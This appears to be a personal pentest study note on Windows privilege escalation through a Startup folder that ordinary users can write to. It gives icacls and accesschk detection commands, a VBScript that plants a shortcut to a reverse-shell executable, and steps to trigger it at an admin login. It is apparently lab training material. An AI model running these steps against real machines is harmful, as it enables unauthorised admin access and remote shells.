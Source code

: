 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| MASK | PERMISSIONS |  
| ----------- | ----------- |  
| F | Full access |  
| M | Modify access |
| RX | Rad and execute access |  
| R | Read-only access |
| W | Write-only access |

**Detection**  

 Open command prompt and type: 
 
```command prompt - windows 
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the `BUILTIN\Users` group has full access ‘(F)’ to the directory.

**Exploitation**

[[1._Reverse Shells (WIN)#MSFVenom]]  

Copy the generated file, x.exe, to the Windows target.

Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`.  

Logoff.  

Login with the administrator account credentials.

Wait for a session to be created, it may take a few seconds.  


#### Malicious file
CreateShortcut.vbs

```command prompt - windows
Set oWS = WScript.CreateObject("WScript.Shell")

sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"

Set oLink = oWS.CreateShortcut(sLinkFile)

oLink.TargetPath = "C:\PrivEsc\reverse.exe"

oLink.Save
```

1. Use accesschk.exe to check permissions on the StartUp directory:

```command prompt - windows
.\accesschk64.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Note that the BUILTIN\Users group has write access to this directory.

3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

4. Run the script using cscript:

```command prompt - windows
cscript CreateShortcut.vbs
```

5. Start a listener on Kali, then log in as the admin user to trigger the exploit.

![[rlwrap]]